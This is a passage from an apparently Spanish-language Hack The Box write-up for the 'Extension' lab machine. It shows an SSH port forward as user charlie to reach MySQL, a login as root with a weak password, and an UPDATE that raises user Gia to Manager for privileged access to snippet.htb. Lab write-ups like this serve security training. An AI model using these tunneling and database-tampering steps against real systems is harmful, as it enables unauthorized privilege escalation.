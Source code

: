 ```shell
ssh charlie@10.10.11.171 -i id_rsa -L 3306:127.0.0.1:3306
charlie@extension: ~$
```

Ahora nos conectaremos a la base de datos en local y cambiaremos el tipo de usuario de `Gia` a `Manager`

```sh
❯ mysql -h 127.0.0.1 -Dwebapp -uroot -ptoor
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 710
Server version: 5.6.51 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [webapp]> update users set user_type='Manager' where email='gia@snippet.htb';
Query OK, 1 row affected (0,059 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [webapp]> 
```

Al conectarnos de nuevo a snippet.htb como antes ahora tenemos acceso privilegiado

![](/assets/img/HTB/Extension/login.png)
